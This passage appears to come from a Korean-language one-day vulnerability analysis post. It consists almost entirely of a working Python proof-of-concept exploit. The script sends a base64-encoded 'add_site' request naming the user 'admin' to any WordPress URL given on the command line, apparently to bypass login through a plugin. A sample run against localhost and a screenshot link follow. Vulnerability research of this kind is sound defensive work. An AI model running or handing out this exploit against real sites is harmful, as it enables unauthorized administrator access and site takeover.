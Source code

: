 ```python
import requests
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", required=True, help="URL of the target WordPress site.")
args = parser.parse_args()

url = args.url
data = '_IWP_JSON_PREFIX_eyJpd3BfYWN0aW9uIjoiYWRkX3NpdGUiLCJwYXJhbXMiOnsidXNlcm5hbWUiOiJhZG1pbiJ9fQ=='
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

request = requests.Request('POST', url, data=data, headers=headers).prepare()

print("=== Request ===")
print(f"{request.method} {request.path_url} HTTP/1.1")
for header, value in request.headers.items():
    print(f"{header}: {value}")
print()
print(request.body)
print()

response = requests.Session().send(request)

print("=== Response ===")
print(f"HTTP/{response.raw.version} {response.status_code} {response.reason}")
for header, value in response.headers.items():
    print(f"{header}: {value}")
print()
if response.content:
    print(response.content.decode())
print()
```

<br>
PoC 실행 결과이다.

```bash
python exploit.py -u http://localhost/wordpress/
```

![image.png](assets/posts/one-day/2024-11-16/img-003.png)
